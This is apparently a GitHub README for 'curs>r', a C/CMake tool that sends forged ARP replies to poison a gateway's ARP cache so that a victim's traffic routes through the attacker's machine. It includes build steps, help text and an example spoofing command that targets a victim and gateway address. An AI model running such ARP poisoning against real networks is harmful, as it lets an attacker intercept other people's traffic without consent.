 # curs>r
A small tool to send malicious arp packets that poison the arp cache of gateway, so the victim's traffic is able to route to the attacker's machine.The curs>r name inspired by an 80s survival horror game in a netflix movie called "Choose or Die" where the game makes the players step into a surreal world of next-level terror and forces them to make choices with deadly consequences.

## Prerequisites
+ [CMake](http://www.cmake.org "CMake project page") (>= 3.17)

## Building
```bash
cd build
./builder.sh
```

## Usage
```bash
➜ ./curser -h
Usage:  curser [ -<flag> [<val>] | --<name> [<val>] ]...

   -i, --interface-name       traffic output interface
   -o, --op-code              type of packet[req/rep]
   -l, --loop                 retry count[default(1)]
       --victim-ip            victim ip address
       --dst-ip               gateway ip
       --dst-mac              gateway mac address
   -h, --help                 display usage information and exit
   -v, --version              display version information and exit
```
```bash
➜ sudo ./curser -i en0 -o rep --victim-ip 192.168.0.22 --dst-ip 192.168.1.1 --dst-mac 00:01:02:03:04:05
```
